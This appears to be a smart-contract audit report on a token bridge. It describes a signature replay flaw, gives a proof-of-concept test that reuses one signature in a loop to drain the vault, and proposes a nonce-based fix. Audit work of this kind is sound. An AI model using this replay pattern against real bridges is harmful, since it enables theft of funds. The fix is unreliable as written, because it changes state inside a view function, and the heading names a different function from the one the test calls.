 # BOSS BRIDGE AUDIT REPORTS

# High

# [H-1] Signature replay attack at `L1BossBridge::sendToL1`

**Description:** Message signing do not contain single-use mechanism such `nonce` or `deadlines`. Hence, signatures can be used `n` number of times in order to execute `messages`.

**Impact:** Transfer signed by Signers can be executed by anyone effectively sending or withdrawing `n` number of times identical transaction as long as `L1BossBridge` owns or manages enough `L1Tokens` on `L1Vault`.

**Proof of Concept**

- Signatures are not one-usage and there's no mechanism from L1 to determine that user locked and unlocked tokens;

```javascript
   function testSignatureReplayAttacks() public {
        uint256 amount = 1 ether;

        uint256 vaultInitialBalance = 100e18;
        uint256 userInitialBalance = token.balanceOf(user);
        deal(address(token), address(vault), vaultInitialBalance);

        (uint8 v, bytes32 r, bytes32 s) = _signMessage(
            _getTokenWithdrawalMessage(user, amount),
            operator.key
        );

        while (token.balanceOf(address(vault)) > 0) {
            tokenBridge.withdrawTokensToL1(user, amount, v, r, s);
        }

        uint256 userEndingBalance = token.balanceOf(user);
        uint256 vaultEndingBalance = token.balanceOf(address(vault));

        assertEq(userEndingBalance, vaultInitialBalance + userInitialBalance);
        assertEq(vaultEndingBalance, 0);
    }
```

**Recommended Mitigation**

- usage of nonces to enable one-usage signatures
- usage of deadlines to allow signature validity within a time range.

```diff
    function _getTokenWithdrawalMessage(
        address recipient,
        uint256 amount
    ) private view returns (bytes memory) {
+       nonce += 1;
        return
            abi.encode(
+               nonce,
                address(token), // target
                0, // value
                abi.encodeCall(
                    IERC20.transferFrom,
                    (address(vault), recipient, amount)
                ) // data
            );
    }
```
